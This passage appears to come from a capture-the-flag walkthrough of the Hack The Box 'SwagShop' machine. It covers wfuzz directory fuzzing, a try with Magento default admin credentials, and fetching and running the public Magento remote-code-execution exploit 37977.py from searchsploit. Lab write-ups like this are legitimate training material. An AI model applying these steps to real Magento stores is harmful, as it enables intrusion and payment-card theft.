 ```Ruby
000000909:   301        9 L      28 W       310 Ch      "app"
000001688:   301        9 L      28 W       312 Ch      "shell"
000001846:   301        9 L      28 W       311 Ch      "skin"

8. I thought for a second maybe I filtered it out, but no it is just not showing up. Then I realized I put FUZZ in the word spot and I fixed it.
9. ᐅ grep -n "^shell$" /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
1688:shell <<< shell is word 1,688 in the list. 
```
![](shell_page.png)
##### PROTIP
> [!NOTE] Magento, Drupal, etc... They are all very vulnerable.
> 1. `https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper`
> 2. Magento is the most popular eCommerce web application in the world for advanced/fast growing eCommerce businesses, with an estimated 200,000+ live websites using the Content Management System (CMS)[1]. Available in both paid-for “enterprise” versions and free “community” versions, it powers some of the world's most popular websites including Huawai[2], Land Rover[3] and Helly Hansen[4]. However, common eCommerce platforms make popular targets for hackers and thieves looking to steal payment card information.


7. **Website enumeration continued...**
```Ruby
1. Google 'magento github'
2. https://github.com/magento <<< wrong version
3. https://github.com/OpenMage/magento-mirror <<< Correct version with shell page
4. https://github.com/OpenMage/magento-mirror/tree/magento-1.9/shell
5. There is also an .htaccess which is notoriously vulnerable.
6. http://swagshop.htb/shell/.htaccess
7. Something is there, but I get 'Forbidden: You do not have permission to access this resource.'
8. Lets try to WFUZZ after the index.php/? page that I forgot to fuzz for earlier.
9. ᐅ wfuzz -c --hc=404 --hh=16097,1852 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://swagshop.htb/index.php/FUZZ
=================================================================
ID           Response   Lines    Word       Chars       Payload
=================================================================

000000242:   302        0 L      0 W        0 Ch        "catalog"
000000227:   200        327 L    852 W      15290 Ch    "contacts"
000000259:   200        51 L     211 W      3609 Ch     "admin"
000000286:   200        327 L    904 W      16095 Ch    "Home"
000000038:   200        327 L    904 W      16095 Ch    "home"
000000685:   200        0 L      0 W        0 Ch        "core"
000000715:   302        0 L      0 W        0 Ch        "install"
```
![](admin_page_magento.png)
8. **Excellent, there is an admin page**
```Ruby
1. In the above wfuzz scan we find an 'admin' page. Lets check it out.
2. It is always good to try to find the default credentials if there are any.
3. Google 'magento default password'
4. The default login is : admin The default password is : 123123. Lets try it.
5. FAIL, invalid.
6. Lets try searchsploit.
7. ~/hackthebox ᐅ searchsploit magento
Magento eCommerce - Remote Code Execution | xml/webapps/37977.py
8. This one seems interesting lets copy it to our working directory.
9. ~/hackthebox ᐅ searchsploit -m xml/webapps/37977.py
10. ᐅ mv 37977.py magento_rce_37977.py
11. The exploit has a bunch of slash comments. That will cause an error if we try and use it as an exploit so lets delete any uncessary comments in the python rce script.
12.  ᐅ python2.7 magento_rce_37977.py
```